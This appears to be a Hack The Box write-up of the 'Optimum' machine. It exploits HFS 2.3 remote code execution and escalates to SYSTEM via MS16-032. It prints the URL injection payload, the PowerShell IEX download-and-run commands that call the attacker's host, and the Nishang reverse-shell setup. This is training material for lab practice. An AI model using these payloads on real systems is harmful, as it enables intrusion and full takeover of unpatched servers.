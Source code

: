 ```yaml
---
title:     "Hack The Box - Optimum"
tags: [windows,easy,sherlock,empire,rce,nishang]
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/1.png)

We are going to pwn Optimum from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/6>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Only one port is opened which is ``HTTP``

## HTTP Enumeration

From the nmap result itself we know that the webpage is ``HttpFileServer httpd 2.3``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/2.png)

When I click the version, It redirects to it official homepage.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/3.png)

Since we know the version I started searching for exploits available for the version and found this 

>https://www.exploit-db.com/exploits/34668

From the above exploit we can do ``RCE`` on the url.
We can execute it by using `/?search=%00{.exec|cmd.}` on the url

Now we need to get a reverse shell from this.

I used [Nishang](https://github.com/samratashok/nishang)

>Nishang is a framework of scripts and payloads that enables using PowerShell for offensive security. By using this we can get the shell.

There is a lot of Shell I choosed ``nishang/Shells/Invoke-PowerShellTcp.ps1`` and copied that to my directory.

If we look at the Shell it gives us some of the examples.
```
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
```

I copied one of the example and changed it to my IP and paste it in bottom of the file.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/4.png)<br/>
This not only load the module but also the shell give me a callback.

## Getting User Shell

We need to start ``python`` server inorder to download it to the box. Started my ``netcat`` listener too.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/5.png)<br/>

Now its time to upload the module to the box

I used Powershell to do that 

```powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Invoke-PowerShellTcp.ps1')```

I added the location of the ``powershell.exe`` in windows along with the command and we already know for ``RCE``.

```
/?search=%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Invoke-PowerShellTcp.ps1').}
```

With URL encoded I passed it to burp.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/6.png)

``Status 200`` means it successfully downloaded to the box.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/7.png)

At the sametime I got the shell in ``nc listener``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/8.png)

## Privilege Escalation

Once I got a shell the first thing I check is ``systeminfo``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/20.png)<br/>
I found some ``Hotfix's``

>A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.

So we can use [Sherlock](https://github.com/rasta-mouse/Sherlock) to find the missing patches which will help us to Privilege Escalation.

>Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.

`Sherlock.ps1`

So we need to ``Find AllVulns`` Copy that and paste it in the bottom of the file as we did before.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/9.png)<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/10.png)

Our python server is already ON so we can download it in the box. No need to represent ``powershell(PS)`` because we already in a powershell.

> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Sherlock.ps1')

Once its executed it displays the output.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/11.png)

Only these are appears to be vulnerable.
```
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS1
             6-034?
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/S
             ample-Exploits/MS16-135
VulnStatus : Appears Vulnerable
```

So I started from the first one which is ``MS16-032``. The [Powershell Empire](https://github.com/EmpireProject/Empire) have an exploit for this.

Its located in ``/data/module_source/privesc/Invoke-MS16032.ps1`` 

If we look at the script it gives the example of how it need to run.
```
 .EXAMPLE

        C:\PS> Invoke-MS16-032 -Command "iex(New-Object Net.WebClient).DownloadString('http://google.com')"
```

``Invoke-MS16032.ps1``
Copy the example and paste it in the bottom of the file with changes. I copied the same``Invoke-PowerShellTcp.ps1`` which we use to get initial shell as ``root.ps1`` to give us another reverse shell.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/12.png)

Note: ``Invoke-MS16032`` must be as same as in the top of the script.

``root.ps1``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/13.png)

On the box:

>IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/Invoke-MS16032.ps1')

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/14.png)

We are System!!

## Method II (Using Metasploit)

> https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec

> use exploit/windows/http/rejetto_hfs_exec

Set LHOST and LPORT<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/15.png)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/16.png)

For privilege escalation, background the session and start ``local_exploit_suggester``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/17.png)

We already know its vulnerable to ``ms16_032``, So I used that exploit
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/18.png)<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-optimum/19.png)

We got authority\system !! 